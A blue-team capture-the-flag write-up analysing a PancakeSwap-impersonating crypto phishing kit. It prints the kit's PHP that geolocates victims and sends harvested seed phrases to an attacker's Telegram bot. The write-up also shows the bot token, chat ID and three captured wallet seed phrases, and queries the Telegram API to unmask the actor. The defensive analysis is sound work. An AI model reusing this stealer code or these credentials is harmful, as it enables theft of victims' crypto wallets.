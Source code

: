 # GrabThePhisher

## Scenario

In [this Cyberdefenders challenge](https://cyberdefenders.org/blueteam-ctf-challenges/95), an attacker compromised a server and impersonated <nolink>https://pancakeswap.finance</nolink>, a decentralized exchange native to BNB Chain, to host a phishing kit at <nolink>https://apankewk.soup.xyz/mainpage.php</nolink>. The attacker set it as an open directory with the file name "pankewk.zip". 

Provided the phishing kit, you as a soc analyst are requested to analyse it and do your threat intel homework.

## Tools used

* [Telegram API](https://core.telegram.org/bots/api#available-methods)

## Questions

***Q1 Which wallet is used for asking the seed phrase?***     

***Q2 What is the file name that has the code for the phishing kit?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ ls
background1.jpg  background2.jpg  background.jpg  cgi-bin  favicon.ico  images  index.html  log  logo.png  metamask  _next  src
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ cd metamask
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ ls
fonts  index.html  metamask.php
```

***Q3 In which language was the kit written?*** 

```text
php
```

***Q4 What service does the kit use to retrieve the victim's machine information?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ nano metamask.php
```

```text
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

***Q5 How many seed phrases were already collected?***

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ cd log
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/log
$ ls
log.txt
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/log
$ cat log.txt
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

***Q6 Write down the seed phrase of the most recent phishing incident?*** 

```text
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

***Q7 Which medium had been used for credential dumping?*** 

***Q8 What is the token for the channel?*** 

***Q9 What is the chat ID of the phisher's channel?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ nano metamask.php
```

```text
sendTel($message);  

    function sendTel($message){
                $id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
                $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
                file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);    

    }
```

***Q10 What are the allies of the phish kit developer?***

```text
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

***Q11 What is the full name of the Phish Actor?***

***Q12 What is the username of the Phish Actor?*** 

```text
$ curl  https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564 | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   160  100   160    0     0    403      0 --:--:-- --:--:-- --:--:--   402
{
  "ok": true,
  "result": {
    "id": 5442785564,
    "first_name": "Marcus",
    "last_name": "Aurelius",
    "username": "pumpkinboii",
    "type": "private",
    "active_usernames": [
      "pumpkinboii"
    ]
  }
}
```
